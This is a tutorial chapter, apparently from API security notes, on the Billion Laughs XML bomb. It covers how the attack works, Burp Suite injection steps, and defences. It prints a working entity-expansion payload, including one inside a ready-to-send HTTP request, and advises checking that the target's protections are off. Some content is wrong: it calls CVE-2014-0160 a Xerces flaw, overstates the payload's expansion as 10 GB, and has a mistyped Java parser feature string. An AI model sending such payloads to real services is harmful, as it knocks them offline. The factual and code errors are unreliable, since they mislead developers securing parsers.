

## Introduction to Billion Laugh Attack

The Billion Laugh Attack, also known as the XML Bomb, is a type of denial-of-service (DoS) attack that exploits the way XML parsers handle certain types of data. This attack can cause a system to consume excessive amounts of memory, leading to crashes or slowdowns. Understanding this attack is crucial for anyone working with APIs that accept XML input.

### What is an XML Bomb?

An XML Bomb is a maliciously crafted XML document designed to cause a denial-of-service condition by consuming large amounts of memory. The attack is based on the recursive expansion of entities within an XML document. When an XML parser encounters such a document, it attempts to expand these entities, which can lead to exponential growth in memory usage.

#### How Does It Work?

Consider the following XML structure:

```xml
<!DOCTYPE lolz [
  <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
  <!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
]>
<root>&e;</root>
```

In this example, each entity references the previous one, leading to exponential expansion. The `&e;` entity, when expanded, results in a string of length \(10^{10}\), which is approximately 10 gigabytes of data. This can easily overwhelm the memory resources of most systems.

### Real-World Examples

One notable example of an XML Bomb attack occurred in the context of web services. In 2013, a vulnerability was discovered in the Java-based Apache CXF framework, which could be exploited using an XML Bomb. This vulnerability was assigned the CVE identifier [CVE-2013-2070](https://nvd.nist.gov/vuln/detail/CVE-2013-2070).

Another example is the [CVE-2014-0160](https://nvd.nist.gov/vuln/detail/CVE-2014-0160) vulnerability in the Apache Xerces library, which could be exploited using an XML Bomb to cause a denial-of-service condition.

### Demonstration Setup

To demonstrate the Billion Laugh Attack, we will use a simple API that accepts XML input. We will capture the initial request using a tool like Burp Suite and then modify it to include an XML Bomb.

#### Step-by-Step Demonstration

1. **Capture the Initial Request**:
    - Use Burp Suite to intercept an API request that accepts XML input.
    - Ensure that the request is captured and displayed in the Burp Suite interface.

2. **Convert to XML**:
    - If the API does not natively accept XML, you may need to modify the request to include an XML payload.
    - Convert the captured request to XML format.

3. **Inject the XML Bomb**:
    - Modify the XML payload to include the recursive entity expansion structure described earlier.
    - Send the modified request to the API.

4. **Observe the Result**:
    - Monitor the system's memory usage and observe any signs of resource exhaustion.
    - Check the API's response to see if it has been affected by the attack.

### Example Code

Here is an example of how to craft an XML Bomb and inject it into an API request:

```xml
<!DOCTYPE lolz [
  <!ENTITY a "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
  <!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
]>
<root>&e;</root>
```

This XML Bomb can be injected into an API request as follows:

```http
POST /api/resource HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: <length>

<!DOCTYPE lolz [
  <!ENTITY a "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
  <!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
]>
<root>&e;</root>
```

### Mermaid Diagrams

A mermaid diagram can help visualize the structure of the XML Bomb and how it expands:



### Pitfalls and Common Mistakes

1. **Incorrect Entity Expansion**:
    - Ensure that the entities are correctly nested and referenced. Incorrect nesting can result in parsing errors rather than the intended memory explosion.

2. **API Configuration**:
    - Some APIs may have built-in protections against XML Bombs. Ensure that the API is configured to allow XML input and does not have these protections enabled.

3. **Memory Limits**:
    - Modern systems often have memory limits that prevent a single process from consuming all available memory. Ensure that the system being tested has sufficient memory to demonstrate the attack effectively.

### How to Prevent / Defend

#### Detection

1. **Monitor Memory Usage**:
    - Implement monitoring tools to track memory usage and alert on sudden increases.
    - Use tools like `top`, `htop`, or system monitoring solutions to keep an eye on resource consumption.

2. **Logging and Alerts**:
    - Configure logging to record unusual activity, such as unexpected XML payloads.
    - Set up alerts to notify administrators of potential attacks.

#### Prevention

1. **Disable External Entity Processing**:
    - Disable external entity processing in XML parsers to prevent the expansion of entities.
    - For example, in Python's `lxml` library, you can disable external entity processing as follows:

    ```python
    from lxml import etree

    parser = etree.XMLParser(resolve_entities=False)
    tree = etree.parse('file.xml', parser)
    ```

2. **Limit Entity Expansion Depth**:
    - Limit the depth of entity expansion to prevent exponential growth.
    - For example, in Java's `DocumentBuilderFactory`, you can set the limit as follows:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
    Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
    ```

3. **Use Secure Libraries**:
    - Use libraries that are known to be secure and have protections against XML Bombs.
    - For example, use `defusedxml` in Python, which provides safe alternatives to standard XML libraries.

#### Secure Coding Fixes

Here is an example of how to securely parse XML in Python using `defusedxml`:

```python
import defusedxml.ElementTree as ET

# Vulnerable code
# tree = ET.parse('file.xml')

# Secure code
tree = ET.parse('file.xml')
root = tree.getroot()
```

And here is an example of how to securely parse XML in Java:

```java
// Vulnerable code
// DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
// DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
// Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));

// Secure code
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load--external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

### Conclusion

The Billion Laugh Attack is a powerful denial-of-service technique that can be used to overwhelm systems that accept XML input. By understanding how this attack works and implementing proper defenses, you can protect your systems from such vulnerabilities.

### Practice Labs

For hands-on practice with API security and XML Bomb attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a module on XML External Entities (XXE) that covers similar concepts.
- **OWASP Juice Shop**: Provides a vulnerable web application that can be used to practice various security attacks, including XML Bomb attacks.
- **DVWA (Damn Vulnerable Web Application)**: Another vulnerable web application that can be used to practice different types of security attacks.

These labs provide a controlled environment to practice and understand the concepts discussed in this chapter.

---
<!-- nav -->
[[API Security/21-Billion Laugh Attack/01-Billion Laugh Attack Demonstration/00-Overview|Overview]] | [[02-Billion Laugh Attack|Billion Laugh Attack]]
